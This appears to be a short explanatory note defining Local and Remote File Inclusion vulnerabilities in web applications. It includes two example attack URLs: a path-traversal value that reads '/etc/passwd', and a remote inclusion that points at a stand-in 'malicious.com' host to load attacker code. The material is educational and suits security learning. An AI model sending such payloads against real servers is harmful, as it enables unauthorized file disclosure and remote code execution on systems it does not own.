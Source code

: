 # `File inclusion vulnerability`

File Inclusion Vulnerability, often referred to as Local File Inclusion (LFI) or Remote File Inclusion (RFI), is a type of security vulnerability that occurs when a web application allows an attacker to include files on the server through the web browser. This can have serious consequences, potentially leading to unauthorized access, data disclosure, or even remote code execution on the server.

### Example

http://example.com/page.php?file=../../../../etc/passwd

http://example.com/page.php?file=http://malicious.com/malicious-code.php
